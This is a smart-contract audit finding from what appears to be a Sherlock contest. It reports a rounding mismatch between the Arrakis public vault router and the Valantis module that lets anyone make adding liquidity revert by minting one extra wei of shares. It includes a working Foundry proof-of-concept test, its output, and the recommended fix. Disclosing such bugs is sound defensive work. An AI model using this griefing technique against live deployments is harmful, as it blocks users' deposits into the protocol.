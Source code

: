 Tricky Alabaster Panda

high

# Due to incorrect rounding, a malicious user can cause the router to ALWAYS revert on adding liquidity

## Summary

See detail

## Vulnerability Detail

In the [`_getMintAmounts()`](https://github.com/sherlock-audit/2024-03-arrakis/blob/64a7dc6ccb5de2824870474a9f35fd3386669e89/arrakis-modular/src/ArrakisPublicVaultRouter.sol#L1194) function of the `ArrakisPublicVaultRouter` contract, it calculates the `amount0ToDeposit` and `amount1ToDeposit` via the following calculation:

```solidity
amount0ToDeposit = FullMath.mulDiv(amount0, proportion, BASE);
amount1ToDeposit = FullMath.mulDiv(amount1, proportion, BASE);
```

However after calling [`mint()`](https://github.com/sherlock-audit/2024-03-arrakis/blob/64a7dc6ccb5de2824870474a9f35fd3386669e89/arrakis-modular/src/ArrakisMetaVaultPublic.sol#L51) on the public vault, the `ValantisHOTModulePublic.deposit()` calculates the actual `amount0` and `amount1` to obtain from the router via:

```solidity
amount0 = FullMath.mulDivRoundingUp(proportion_, _amt0, BASE);
amount1 = FullMath.mulDivRoundingUp(proportion_, _amt1, BASE);
```

The issue is that the calculation rounds up in the `ValantisHOTModulePublic`, but rounds down in the `ArrakisPublicVaultRouter` 

Hence, the `amount0ToDeposit` which the router approves to the module within `_addLiquidity()` will be insufficient. This leads to a revert when the module attempts to transfer `amount0` and `amount1`  worth of tokens from the router.

## Impact

Every function in the `ArrakisPublicVaultRouter`  which involves adding liquidity is vulnerable, and will revert whenever the `mulDiv` operation rounds down (so whenever the division has a remainder, which is the vast majority of cases).

This is severe since anyone can simply mint an extra 1 wei of shares to ensure that adding liquidity via the router always reverts.

## Proof of Concept

This PoC demonstrates that having the total supply as `1e18+1`  leads to reverting when trying to add liquidity via the router, due to rounding down when estimating the required `amount0` and `amount1`  to approve to the module.

To run the PoC:
1. Add the following test to `arrakis-modular/test/integration`
2. Add the `virtual` keyword to `ValantisIntegrationPublicTest.setUp()`- so that `setUp()` can be over-written
2. Run `forge test --mt test_addLiquidity_Fails -vv`

<details><summary>Coded PoC</summary>
    
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.19;

import {console} from "forge-std/console.sol";

import {IArrakisMetaVault} from
    "../../src/interfaces/IArrakisMetaVault.sol";
import {ArrakisMetaVaultPublic} from "../../src/ArrakisMetaVaultPublic.sol";
import {ArrakisPublicVaultRouter} from
    "../../src/ArrakisPublicVaultRouter.sol";

import {RouterSwapExecutor} from "../../src/RouterSwapExecutor.sol";
import {AddLiquidityData} from "../../src/structs/SRouter.sol";
import {NATIVE_COIN} from "../../src/constants/CArrakis.sol";

import {ValantisIntegrationPublicTest} from "./ValantisIntegrationPublic.t.sol";
import {IERC20} from "forge-std/interfaces/IERC20.sol";

contract RouterTest is ValantisIntegrationPublicTest {
    
    // #region public properties.

    ArrakisPublicVaultRouter public router;
    RouterSwapExecutor public swapExecutor;
    
    address routerOwner;

    uint256 public constant MINIMUM_LIQUIDITY = 1e3;

    function setUp() public override {
        super.setUp();

        routerOwner = makeAddr("routerOwner");

        router = new ArrakisPublicVaultRouter(
            NATIVE_COIN,
            address(1),
            routerOwner,
            address(factory),
            WETH
        );

        swapExecutor =
            new RouterSwapExecutor(address(router), NATIVE_COIN);

        vm.prank(routerOwner);
        router.updateSwapExecutor(address(swapExecutor));


    }

    function test_addLiquidity_Fails() public {
        // #region create public vault.

        // Initially mint 1e18 + 1 tokens, so that division by totalSupply rounds down
        initial_mint(1e18+1);

        ArrakisMetaVaultPublic publicVault = ArrakisMetaVaultPublic(vault);

        AddLiquidityData memory params = AddLiquidityData({
            amount0Max: 2e9,
            amount1Max: 1e18,
            amount0Min: 1.99e9,
            amount1Min: 0.99e17,
            amountSharesMin: 0,
            vault: address(vault),
            receiver: address(this)
        });

        deal(address(token0), address(this), 2e9);
        deal(address(token1), address(this), 1e18);

        token0.approve(address(router), 2e9);
        token1.approve(address(router), 1e18);

        console.log("\n--ADDING LIQUIDITY--\n");
        
        vm.expectRevert("ERC20: transfer amount exceeds allowance");
        router.addLiquidity(params);
    }

    function initial_mint(uint256 _shares) public {
        address user = vm.addr(uint256(keccak256(abi.encode("User"))));
        address receiver =
            vm.addr(uint256(keccak256(abi.encode("Receiver"))));

        uint256 give0 = 4e9;
        uint256 give1 = 2e18;
        deal(address(token0), user, give0);
        deal(address(token1), user, give1);

        address m = address(IArrakisMetaVault(vault).module());

        vm.startPrank(user);
        token0.approve(m, give0);
        token1.approve(m, give1);

        ArrakisMetaVaultPublic(vault).mint(_shares, receiver);
        vm.stopPrank();
    }
}
```
</details>  

(I added some logs within `ValantisModulePublic.deposit()`  and `ArrakisPublicVaultRouter._getMintAmounts()`  to demonstrate the discrepancies in calculations)

<details><summary>Console output</summary>
    
```bash
[PASS] test_addLiquidity_Fails() (gas: 1425357)
Logs:
  amount0In required:  2000000001
  amount1In required:  1000000000000000001
  
--ADDING LIQUIDITY--

  amount0 approved to module:  1999999999
  amount1 approved to module:  999999999500000000
  amount0In required:  2000000000
  amount1In required:  999999999500000001

Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 425.65ms

Ran 1 test suite in 425.65ms: 1 tests passed, 0 failed, 0 skipped (1 total tests)
```
  </details>  
  

Notice how  ‘amount0 approved to module’ 1 less than ‘amount0In required', that is what leads to the revert.

## Code Snippet

### ArrakisPublicVaultRouter
https://github.com/sherlock-audit/2024-03-arrakis/blob/64a7dc6ccb5de2824870474a9f35fd3386669e89/arrakis-modular/src/ArrakisPublicVaultRouter.sol#L1228-L1229

### ValantisHOTModulePublic
https://github.com/sherlock-audit/2024-03-arrakis/blob/64a7dc6ccb5de2824870474a9f35fd3386669e89/arrakis-modular/src/modules/ValantisHOTModulePublic.sol#L71-L74

## Tool used

Manual Review

## Recommendation

Use `FullMath.mulDivRoundingUp` when calculating `amount0ToDeposit` and `amount1ToDeposit`

```diff
-amount0ToDeposit = FullMath.mulDiv(amount0, proportion, BASE);
-amount1ToDeposit = FullMath.mulDiv(amount1, proportion, BASE);
+amount0ToDeposit = FullMath.mulDivRoundingUp(amount0, proportion, BASE);
+amount1ToDeposit = FullMath.mulDivRoundingUp(amount1, proportion, BASE);
```